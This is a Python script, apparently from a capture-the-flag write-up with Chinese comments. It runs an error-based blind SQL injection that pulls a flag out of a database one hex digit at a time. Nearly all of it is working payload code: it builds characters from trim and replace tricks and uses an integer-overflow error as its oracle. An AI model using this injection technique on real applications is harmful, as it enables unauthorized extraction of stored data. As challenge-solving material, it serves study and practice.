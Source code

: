 ```
table['B'] = f'trim(hex((select(name)from(vote)where(case(id)when(4)then(1)end))),16||{table["C"]}||{table["F"]})' 
# 'koala' → '6B6F616C61'
# || 是连接符，第二项的意思是 16||C||F ，也就是利用 trim 删除 1,6,C,F
res = binascii.hexlify(bytes(binascii.hexlify(b'flag{').decode().upper(),"utf-8")).decode().upper()
for i in range(len(res), l):
  for x in '0123456789':
    t = '||'.join(c if c in '0123456789' else table[c] for c in res + x)
    r = requests.post(url, data={
      'id': f'abs(case(replace(length(replace(hex(hex((select(flag)from(flag)))),{t},trim(0,0))),{l},trim(0,0)))when(trim(0,0))then(0)else(0x8000000000000000)end)'
    })
    if b'An error occurred' in r.content:
      res += x
      break
    time.sleep(0.6)
  print(f'[+] flag ({i}/{l}): {res}')
  i += 1
print('[+] flag:', binascii.unhexlify(binascii.unhexlify(res).decode()).decode())
```

